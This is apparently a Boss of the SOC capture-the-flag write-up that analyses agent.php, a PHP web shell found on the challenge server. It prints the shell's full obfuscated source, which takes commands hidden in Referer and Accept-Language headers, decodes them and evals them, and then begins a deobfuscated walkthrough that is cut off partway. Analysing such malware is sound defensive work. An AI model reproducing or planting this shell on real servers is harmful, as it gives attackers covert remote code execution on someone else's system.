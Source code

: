 # Boss of the SOC writeup

## PHP Web Shell

During the challenge I thought to myself that it would be a nice challenge to analyze the web shell used in the attack.

I had the source code of it so.. why not? ;)

After figuring out what file were uploaded to the server, we could extract the source code of the web shell (agent.php):

```php
    <?php
    $d='$kh="5|3481"5|;$kf=5|"9d75|5|5|b";function x($5|t,$k){$c=st5|rlen($k);$5|5|l=str5|len($t);';
    $w='"5|HTT5|5|P_ACCEPT_LANGUA5|GE"];i5|5|f($rr&&$ra)5|{    $u5|=pa5|rse_u5|rl($rr)5|;    pars';
    $u=str_replace('X','','crXeatXXe_XfuXnXction');
    $B='os5|($s[$5|i],$f);if($5|e)5|{$k=$kh5|.$kf;ob_s5|t5|art();@5|e5|val5|(@gzunco5|mpress(@x(@base';
    $c='code(x(gzco5|mpress5|($o5|),$k5|));p5|rint(5|"5|<$k>$d</$k>");@5|s5|ession_destro5|y();}}}}';
    $T='i]="";$p5|=$ss($5|p,5|3);}if(a5|rray5|5|_k5|ey_exists($i,$s)5|){$s[$i].=5|$p;$e=5|str5|p';
    $Q='ss(m5|d5($5|i.$kh),0,5|5|3))5|;$f=$s5|l($5|5|ss(5|md5($i.$kf),0,3));$p="5|";fo5|r($z=1;$';
    $a='e_s5|tr($u5|["query5|"],5|$q);$q=arr5|a5|y_5|5|values($q)5|;pr5|e5|g_match_5|all("/([\\w])5|';
    $j='[\\w-]+(?:;q=0.([\\5|d]5|)5|)?,?/",$ra,$5|m);if($q5|&&$m){5|@sessi5|on_5|start();$s5|=&$5|5';
    $N='i],05|,5|$e))),$k)));5|$o=ob_ge5|5|t_content5|s(5|);ob_e5|nd_clean();$d=5|b5|ase64_5|en';
    $Y='|5|_SESSIO5|N;$ss="s5|ub5|str";$5|sl=5|"strtolower";$5|i5|=$5|m[1][0].5|$m[1][1];$h=$sl($';
    $t='65|45|_deco5|de(p5|reg_replace(ar5|ray("/5|_5|/","/-/"),arr5|ay("/5|5|","+"),$5|ss($s5|[$';
    $o='z<cou5|nt($5|m[1]);$5|z++) $5|p.=$q[$5|m[5|5|25|][$5|z]];if(strpos5|5|($p,$h)===0){$s[$';
    $e='}^$k5|{$5|j};}}re5|turn 5|$o;}$r5|=$5|_SERVER;$rr5|=@$r[5|"HTTP_5|REFERER5|"]5|;$ra=@$r[';
    $q='$o=""5|;for($5|i5|=0;$i<$l;5|){for($j=5|05|;($j<$c5|&&$i<$l);5|$j++,$i5|5|++){5|$o.=$t{$i';
    $L=str_replace('5|','',$d.$q.$e.$w.$a.$j.$Y.$Q.$o.$T.$B.$t.$N.$c);
    $R=$u('',$L);$R();
    ?>
```

We can easily see that the code divided to several string which later concat into one string which then replaces `5|` with nothing. Let's do just that:

```php
    function webshell()
    {
        $kh = "3481";
        $kf = "9d7b";
        function x($t, $k)
        {
            $c = strlen($k);
            $l = strlen($t);
            $o = "";
            for ($i = 0; $i < $l;) {
                for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
                    $o .= $t{
                    $i} ^ $k{
                    $j};
                }
            }
            return $o;
        }
        $r = $_SERVER;
        $rr = @$r["HTTP_REFERER"];
        $ra = @$r["HTTP_ACCEPT_LANGUAGE"];
        if ($rr && $ra) {
```